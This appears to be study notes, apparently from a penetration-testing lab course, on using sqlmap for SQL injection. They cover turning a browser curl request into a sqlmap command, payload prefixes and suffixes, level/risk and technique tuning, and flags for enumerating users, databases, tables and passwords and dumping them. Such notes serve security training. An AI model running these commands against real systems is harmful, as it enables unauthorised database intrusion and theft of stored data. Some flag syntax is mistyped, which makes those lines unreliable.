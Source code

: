 # building attack & db enumeration

## Running sqlmap on an HTTP request

- sqlmap has numerous options and switches that can be used properly to setup http requests its usage
- in many cases, such as not able to provide proper cookie value, or improper declaration of formatted POST  data, will prevent the correct detection and exploitation of the potential sqli vulnerability.

### using CURL command:

- one of the easiest way to set up an sqlmap request against the specific target with all the http parameters inside it is by using the copy as curl feature from within the Network Monitor in browser.
- open up any link or wherever you want to test for sqli injection:
    - press f12, open up the network tab and right click on the main link where sqli is to be tested.
    - then press copy, copy as curl and after that just replace curl with sqlmap and put -u flag in front of the link.
    - `curl '[http://94.237.51.163:49376/case1.php?id=1](http://94.237.51.163:49376/case1.php?id=1)' --compressed -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Connection: keep-alive' -H 'Referer: [http://94.237.51.163:49376/case1.php](http://94.237.51.163:49376/case1.php)' -H 'Upgrade-Insecure-Requests: 1' -H 'Priority: u=0, i'`
    - just replace curl with sqlmap and put -u flag in front of website
    

## Attack Tuning

- vector (union all select 1,2,user,4#) : central part of the payload, carrying the useful SQL code to be executed at the target.
- boundaries (<vector>- -  -) : prefix or suffix formations used at the end of vectors ( eg, #, - -  - comments) that are used for proper injection of the vector in the vulnerable SQL statement.

### Prefix/Suffix

- requirement of prefix and suffix values is in rare cases, not covered by the regular sqlmap runs:
    - `sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"`
- very rare cases where we will need to put custom boundaries at end of vector, there we will be needing the use of `-- prefix` and `-- suffix`

### Level/Risk

- by default sqlmap used combination of predefined most common boundaries(prefix/suffix) along with vectors having a high chance of success in case of a vulnerable target, but there is possibility of users to use bigger sets of boundaries and vectors already incorporated in sqlmap.
    - `--level 1-5` : this option sets to level of tests to perform extending both vectors and boundaries there expectancy of success (i.e. lower the expectancy, higher the success)
    - `--risk 1-3` : extends the used vector set based on the risk of causing problems at the target side (i.e. risk of database entry loss or maybe dos)
    

## Advanced Tuning

### status codes

- when dealing with huge target response with lot of dynamic content, subtle difference between true and false could be used for better detection purposes
- `--code 200`    :  this flag is used to fixate the detection of true response to specific http code

### titles

- if the difference could be seen by inspecting the http page titles
- `--titles` : this flag could be used to instruct the detection mechanism to base the comparison based on the content of html tag

### techniques

- `--technique=BEU` : to specify to use specific techniques for sqli, to narrow down the type of payloads being used. single or many techniques can be set of BEUSTQ

# at last for fine tuning sqlmap attack:

- `-- dbms=MySQL` : database being used by server
- `--batch` : runs sqlmap in non-interactive mode, automatically using default options when prompt appears, useful for scripting and automation
- `--threads 10` : to run sqlmap using 10 threads to speed up process
- `--fresh-queries` : this flag tells sqlmap to ignore cached data and to re execute all the queries against the database
- `--time-sec 10` : sets the number of seconds to wait before considering the response to be delayed, this helps in case the server is responding slowly to queries
- `--no-cast` :  this option disables automatically type casting of data, when this is enabled sqlmap tries to automatically cast data types (e.g. converting strings into integers) which might not be necessary and this could be lead to incorrect results
- `-v 3` : to set the verbosity level of output as usual
- `--level 1-5` : to increase the number of tests sqlmap performs which can lead to better vulnerability scanning
- `--risk 1-3` : sets the risk level for test, higher risk levels enable more aggressive risk
- `--union-cols=8` : if we know the number of columns being used in the database
- `-r http_request.txt` : to give the request copied from proxy like burp after intercepting the request

## Database Enumeration after exploitation:

- `--current-user` : current user name
- `--banner` : database version banner
- `--current-db` : current database
- `--is-dba` : if the current user has administrator rights
- `--dbs` : to dump the database using sqlmap
- `-D database --tables` : to dump tables of this database
- `-D : db_to_dump` : the database whose table’s content is to be dumped
- `-T table_to_dump` : the table whose content is to be dumped
- `--dump -T table -D database`  : to dump data
- `--dump -T table -D database -C specific_column,specific_column` : to dump specific columns
- `--dump -T table -D database -where=’name like fu%’` : dump specific data based on condition
- `--dump-format html` : to specify html or sqlite format of storing dumped data
- `--start=1`   `--stop=5` : to narrow down dumping data from row numbers
- `--dump-all`   `--exclude-sysdbs` : dump data of all the databases & exclude sysdb

### Advanced Database Enumeration:

- `--schema` : to retrieve the full structure of database with there tables to have a complete overview of database architecture
- `--search -T table_name` / `-C column_name` : search flag uses inbuilt like operator it will search for `LIKE ‘table_name’`
- `--password --batch` :
- `--all --batch` : all switch combined with batch flag will do all the enumeration process on itself and provide complete details of database